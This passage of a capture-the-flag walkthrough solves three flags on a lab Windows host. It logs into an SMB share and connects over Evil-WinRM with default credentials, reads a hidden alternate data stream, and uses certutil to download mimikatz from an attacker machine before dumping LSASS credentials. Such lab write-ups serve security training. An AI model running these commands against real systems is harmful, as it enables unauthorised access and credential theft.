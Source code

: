 ### FLAG 009: IT Share Authentication (30 points)
**Location**: IT share requires valid credentials
```bash
# Connect with credentials
smbclient //192.168.1.22/IT -U admin%admin

smb: \> ls
smb: \> get flag.txt
smb: \> !cat flag.txt
# Output: FLAG{ALAKAZAM49155037}
smb: \> quit
```

### FLAG 012: Alternate Data Stream (40 points)
**Location**: Hidden ADS in normal.txt file
```bash
# Connect via Evil-WinRM
evil-winrm -i 192.168.1.22 -u admin -p admin

# Navigate and check ADS
*Evil-WinRM* PS C:\Users\admin\Documents> cd C:\Public
*Evil-WinRM* PS C:\Public> Get-Item normal.txt -Stream *
# Shows hidden stream exists

*Evil-WinRM* PS C:\Public> Get-Content normal.txt -Stream hidden
# Output: FLAG{LAPRAS77371564}
```

---

## Memory Exploitation with Mimikatz

### FLAG 003: LSASS Memory Dump (45 points)
**Location**: WDigest credentials in memory
```bash
# In Evil-WinRM session as admin:
*Evil-WinRM* PS C:\Users\admin\Documents> cd C:\Temp

# Download Mimikatz (ensure Python HTTP server is running on Kali)
# On Kali: python3 -m http.server 8000
*Evil-WinRM* PS C:\Temp> certutil -urlcache -f http://192.168.1.7:8000/mimikatz.exe mimikatz.exe

# Run Mimikatz
*Evil-WinRM* PS C:\Temp> .\mimikatz.exe

# In Mimikatz prompt:
mimikatz # privilege::debug
# Output: Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
# Look in the wdigest section for:
# * Flag     : FLAG{BULBASAUR23051655}

mimikatz # exit
```
